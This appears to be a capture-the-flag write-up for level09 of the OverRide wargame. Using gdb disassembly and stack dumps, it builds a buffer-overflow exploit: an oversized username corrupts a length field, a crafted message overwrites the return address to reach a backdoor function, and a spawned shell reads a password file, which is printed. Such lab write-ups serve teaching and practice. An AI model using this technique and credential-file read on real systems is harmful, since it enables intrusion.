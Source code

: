 We keep that in our mind, might be useful later if we can buffer overflow of string format exploit.

```assembly
(gdb) disas secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
```

Now, let's try to rewrite some parts of the memory.

```assembly
(gdb) disas handle_msg 
Dump of assembler code for function handle_msg:
   0x00005555555548c0 <+0>:	push   %rbp
   0x00005555555548c1 <+1>:	mov    %rsp,%rbp
   0x00005555555548c4 <+4>:	sub    $0xc0,%rsp
   0x00005555555548cb <+11>:	lea    -0xc0(%rbp),%rax
   0x00005555555548d2 <+18>:	add    $0x8c,%rax
   0x00005555555548d8 <+24>:	movq   $0x0,(%rax)
   0x00005555555548df <+31>:	movq   $0x0,0x8(%rax)
   0x00005555555548e7 <+39>:	movq   $0x0,0x10(%rax)
   0x00005555555548ef <+47>:	movq   $0x0,0x18(%rax)
   0x00005555555548f7 <+55>:	movq   $0x0,0x20(%rax)
   0x00005555555548ff <+63>:	movl   $0x8c,-0xc(%rbp)
   0x0000555555554906 <+70>:	lea    -0xc0(%rbp),%rax
   0x000055555555490d <+77>:	mov    %rax,%rdi
   0x0000555555554910 <+80>:	callq  0x5555555549cd <set_username>
   0x0000555555554915 <+85>:	lea    -0xc0(%rbp),%rax
   0x000055555555491c <+92>:	mov    %rax,%rdi
   0x000055555555491f <+95>:	callq  0x555555554932 <set_msg>
=> 0x0000555555554924 <+100>:	lea    0x295(%rip),%rdi        # 0x555555554bc0
   0x000055555555492b <+107>:	callq  0x555555554730 <puts@plt>
   0x0000555555554930 <+112>:	leaveq 
   0x0000555555554931 <+113>:	retq  
```

With gdb, we can see some kind of structure inside `handle_msg`. Let's try to see if we're right on this one

```assembly
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) x/46x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x0a424242
0x7fffffffe410:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe440:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe450:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe460:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe470:	0x00000000	0x00000000	0x00000000	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x0000000a	0x00000000
0x7fffffffe4a0:	0x00000000	0x0000008c

```

We can see that there is a spot for the message, for the username and for a int (?) and it looks like the `size of size_max(message) + size_max(username)`
Let's look a bit further :

```assembly
(gdb) x/52x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x0a424242
0x7fffffffe410:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe440:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe450:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe460:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe470:	0x00000000	0x00000000	0x00000000	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x0000000a	0x00000000
0x7fffffffe4a0:	0x00000000	0x0000008c	0xffffe4c0	0x00007fff
0x7fffffffe4b0:	0xffffe4c0	0x00007fff	0x55554abd	0x00005555
```

The eight lasts bytes correspond to the eip of the function `handle_message`

```assembly
(gdb) disas main
Dump of assembler code for function main:
   0x0000555555554aa8 <+0>:	push   %rbp
   0x0000555555554aa9 <+1>:	mov    %rsp,%rbp
   0x0000555555554aac <+4>:	lea    0x15d(%rip),%rdi        # 0x555555554c10
   0x0000555555554ab3 <+11>:	callq  0x555555554730 <puts@plt>
   0x0000555555554ab8 <+16>:	callq  0x5555555548c0 <handle_msg>
=> 0x0000555555554abd <+21>:	mov    $0x0,%eax
   0x0000555555554ac2 <+26>:	pop    %rbp
   0x0000555555554ac3 <+27>:	retq  
```

So maybe if we go further with the username, we can overwrite this eip. But it looks like there is some protection, still, let's try it.

```assembly
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level09/level09 

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) c
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) x/52x $sp
0x7fffffffe3f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe400:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe410:	0x42424242	0x42424242	0x42424242	0x000a4242
0x7fffffffe420:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe430:	0x00000000	0x00000000	0xf7a945da	0x00007fff
0x7fffffffe440:	0x00000086	0x00000000	0x0000002d	0x00000000
0x7fffffffe450:	0x0000000a	0x00000000	0x55554c10	0x00005555
0x7fffffffe460:	0xffffe5a0	0x00007fff	0xf7a95d45	0x00007fff
0x7fffffffe470:	0xf7dd4260	0x00007fff	0xf7a9608f	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe4a0:	0x41414141	0x00000041	0xffffe4c0	0x00007fff
0x7fffffffe4b0:	0xffffe4c0	0x00007fff	0x55554abd	0x00005555
```

I gave 41 A's but it never go further from that, even if we give more A's. But we can see that `8c` has been changed by `41` so we can change that.

```assembly
(gdb) disas set_msg 
Dump of assembler code for function set_msg:
[...]
   0x00005555555549b2 <+128>:	lea    -0x400(%rbp),%rcx
   0x00005555555549b9 <+135>:	mov    -0x408(%rbp),%rax
   0x00005555555549c0 <+142>:	mov    %rcx,%rsi
   0x00005555555549c3 <+145>:	mov    %rax,%rdi
=> 0x00005555555549c6 <+148>:	callq  0x555555554720 <strncpy@plt>
   0x00005555555549cb <+153>:	leaveq 
   0x00005555555549cc <+154>:	retq   

```

Let's put a breakpoint here and see the arguments of strncpy (the last one is the length, let's focus on that).
Here with a username with less than 41 char.

```assembly
(gdb) i r
rax            0x7fffffffe3f0	140737488348144
rbx            0x0	0
rcx            0x7fffffffdfe0	140737488347104
rdx            0x8c	140
rsi            0x7fffffffdfe0	140737488347104
```

Here with 41 A's

```assembly
(gdb) i r
rax            0x7fffffffe3f0	140737488348144
rbx            0x0	0
rcx            0x7fffffffdfe0	140737488347104
rdx            0x41	65
rsi            0x7fffffffdfe0	140737488347104

(gdb) x/s 0x7fffffffdfe0
0x7fffffffdfe0:	 'B' <repeats 30 times>, "\n"
```

`rsi` is the starting address of our structure.
So when we give a big username, we can change the length of the message we will copy inside the stack. 
So let's try this:

- We need to overwrite `0x7fffffffe4b8-0x7fffffffe4bc` (`0x7fffffffe4b8 - 0x7fffffffe3f0 = 200`) So the first 200 bytes won't matter, we need to give the address of `secret_backdoor` from byte 201 to 208
- We need to change the length so we can write 208 bytes (`0xd0`)

```bash
level09@OverRide:~$ (python -c 'print("\xd0" * 41)'; python -c 'print("B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; python -c 'print("/bin/sh")'; python -c 'print("cat /home/users/end/.pass")') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

```bash
su end
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

